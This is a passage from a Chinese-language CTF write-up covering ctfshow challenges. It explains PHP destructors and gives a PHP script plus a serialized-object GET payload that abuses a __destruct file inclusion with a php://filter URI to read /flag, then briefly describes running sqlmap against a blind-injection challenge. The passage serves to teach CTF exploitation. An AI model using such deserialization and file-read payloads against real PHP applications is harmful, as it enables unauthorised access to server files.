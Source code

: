 ```bash
} else { 
    new CTFSHOW("lookme", array()); 
}

```
了解析构函数

>析构函数的作用和构造函数正好相反，析构函数只有在对象被垃圾收集器收集前（即对象从内存中删除之前）才会被自动调用。析构函数允许我们在销毁一个对象之前执行一些特定的操作，例如关闭文件、释放结果集等。
在 PHP 中有一种垃圾回收机制，当对象不能被访问时就会自动启动垃圾回收机制，收回对象占用的内存空间。而析构函数正是在垃圾回收机制回收对象之前调用的。
析构函数的声明格式与构造函数相似，在类中声明析构函数的名称也是固定的，同样以两个下画线开头的方法名__destruct()，而且析构函数不能带有任何参数。

通过Happy类的__destruct魔术方法，存在文件包含的漏洞，这里通过php伪协议进行源码读取

先序列化一次
```bash
<?php
class Happy{ 
    public $file='php://filter/read=convert,base64-encode/resource=/flag'; 
} 
echo serialize(new Happy());
?>
```
Payload:
```
?w_a_n=O:5:"Happy":1:{s:4:"file";s:54:"php://filter/read=convert,base64-encode/resource=/flag";}
```

---
## 迷惑行为大赏之盲注
>知识点： 特殊字符处理 与 sql盲注中文字符

[github wp](https://github.com/ctfwiki/subject_misc_ctfshow/blob/master/20200821_%E5%BA%9F%E7%89%A9%E6%9D%AF_%E8%BF%B7%E6%83%91%E8%A1%8C%E4%B8%BA%E5%A4%A7%E8%B5%8F%E4%B9%8B%E7%9B%B2%E6%B3%A8/Readme.md)

kali下：

五个库

![](https://img-blog.csdnimg.cn/20210225003951454.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
测试库：
![](https://img-blog.csdnimg.cn/20210225004032790.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210225004039479.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210225004059839.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
字段名包含@，sqlmap默认配置跑不出数据

存在@的特殊字符，得用`反引号括起来`

Kali下跑不出来 windows跑出来了

![](https://img-blog.csdnimg.cn/20210225004140524.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---